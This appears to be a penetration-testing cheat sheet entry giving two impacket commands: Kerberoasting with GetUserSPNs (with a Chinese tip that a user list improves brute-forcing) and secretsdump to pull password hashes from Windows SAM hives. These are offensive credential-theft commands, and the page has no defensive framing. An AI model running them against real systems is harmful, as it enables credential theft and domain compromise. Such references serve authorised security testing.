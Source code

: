 # impacket 

% impacket , Kerberoasting 
## GetUserSPNs - getSPN with user_file
#plateform/linux #target/remote #tag/Kerberos #port/445
使用user_file来爆破的话成功率和效率都更高
```bash
impacket-GetUserSPNs -usersfile <users_file>  -request -dc-ip <address> <domain>/<username>:<password>
```

% impacket , secretsdump
## secretsdump - get hash from SAM
#plateform/linux #target/local #tag/Kerberos
```bash
impacket-secretsdump  -system <SYSTEM> -sam <SAM> -security <SECURITY> LOCAL
```
